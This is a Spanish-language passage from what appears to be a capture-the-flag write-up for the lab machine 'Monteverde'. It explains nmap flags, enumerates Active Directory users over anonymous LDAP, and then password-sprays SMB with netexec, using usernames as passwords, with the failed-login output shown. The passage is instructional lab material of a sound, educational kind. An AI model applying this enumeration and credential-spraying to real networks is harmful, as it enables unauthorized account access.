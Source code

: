 - `-p`: especifica los puertos a escanear. En este caso, se están escaneando los puertos 53, 88, 135, 139, 389, 445, 464, 593, 636, 3268, 3269, 5985, 9389, 49667, 49673, 49674, 49675, 49740 y 49899.
- `-sC`: activa la opción de enumeración de scripts predeterminados de Nmap. Esto permite ejecutar una serie de scripts diseñados para detectar vulnerabilidades o características específicas de los servicios.
- `-sV`: realiza una detección de la versión de los servicios que se encuentran en los puertos especificados.
- `-vvv`: establece un nivel de verbosidad muy alto, mostrando una salida muy detallada del escaneo.
- `-Pn`: ignora el descubrimiento de hosts y asume que el objetivo está activo.
- `-n`: evita la resolución DNS inversa para las direcciones IP.
- `10.10.10.172`: es la dirección IP del host que se va a escanear.
- `-oN servicesScan`: genera un archivo de salida en formato normal con el nombre "servicesScan".

## Enumeración de usuarios

Enumerando por el servicio `ldap` encontraremos algunos usuarios:

```python
❯  ldapsearch -x -b 'dc=megabank,dc=local' 'objectclass=user' 'userPrincipalName' -H ldap://10.10.10.172
```

Para solo obtener los usuarios dentro del servicio de `ldap` realizaremos un filtro:

```python
❯ ldapsearch -x -b 'dc=megabank,dc=local' 'objectclass=user' 'userPrincipalName' -H ldap://10.10.10.172| grep userPrincipalName| awk '{print $2}'| awk -F '@' '{print $1}'
```

Luego obtendremos  los siguientes usuarios:

```python
mhope
SABatchJobs
svc-ata
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
```
# Explotación 

Con la herramienta `netexec` intentaremos las credenciales con los usuarios que encontramos

```python
❯ netexec smb 10.10.10.172 -u user.txt  -p user.txt
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-ata:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-bexec:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-netapp:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\roleary:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\smorgan:mhope STATUS_LOGON_FAILURE 
```